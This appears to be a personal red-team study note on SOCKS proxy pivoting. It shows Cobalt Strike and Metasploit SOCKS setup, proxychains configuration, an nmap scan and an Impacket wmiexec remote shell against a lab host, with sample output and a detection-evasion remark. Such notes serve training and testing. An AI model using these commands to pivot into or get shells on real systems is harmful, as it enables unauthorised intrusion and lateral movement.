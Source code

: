```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[SOCKS Proxies]]  
___

## Description:  

### chisel
[[chisel]]

### CobaltStrike SOCKS proxy

A SOCKS (Secure Socket) Proxy exchanges network packets between a client and a server via a "proxy".

This is particularly helpful when we want to leverage Linux-based toolsets such as [Impacket](https://github.com/SecureAuthCorp/impacket).

 It also carries additional OPSEC advantages - since we're not pushing offensive tooling onto the target or even executing any code on a compromised endpoint, it can shrink our footprint for detection.

To start a socks proxy, use `socks [port]` on a Beacon.

```
beacon> socks 1080
[+] started SOCKS4a server on: 1080
```
This will bind port 1080 on the Team Server.

Open `/etc/proxychains.conf` and change `socks4 127.0.0.1 9050`. Change `9050` to `1080` (or whichever port you're using).


To tunnel a tool through proxychains, it's as simple as `proxychains [tool] [tool args]`.

Before running commands run `sleep 0` in beacon to set it to interactive mode. After you run command set it back to `sleep 15`.

```
beacon> sleep 0
```


 ICMP and SYN scans cannot be tunnelled, so we must disable ping discovery (`-Pn`) and specify TCP scans (`-sT`) for nmap to work.

```
root@kali:~# proxychains -q nmap -n -Pn -sT -p445,3389,5985 10.10.17.25
```

Interactive shell through proxychains

```
root@kali:~# proxychains python3 /usr/local/bin/wmiexec.py DEV/bfarmer@10.10.17.25
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.17.25:445-<><>-OK
[*] SMBv3.0 dialect used
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.17.25:135-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.17.25:49682-<><>-OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands

C:\>whoami
dev\bfarmer

C:\>hostname
srv-1

```


### Metasploit Socks Proxy

^8b8d22

Setup other routes first:
[[Metasploit#^8f3ca2]]

```
msf5 post(multi/manage/autoroute) > use auxiliary/server/socks_proxy
msf5 auxiliary(server/socks4a) > show options
msf5 auxiliary(server/socks4a) > set SRVHOST 127.0.0.1
msf5 auxiliary(server/socks4a) > exploit -j
```

We can now update our ProxyChains configuration file (/etc/proxychains.conf) 
`kali@kali:~$ sudo echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf`
check settings, it might be socks5

Now run commands:
`kali@kali:~$ sudo proxychains rdesktop 192.168.1.110`


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (09:50 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
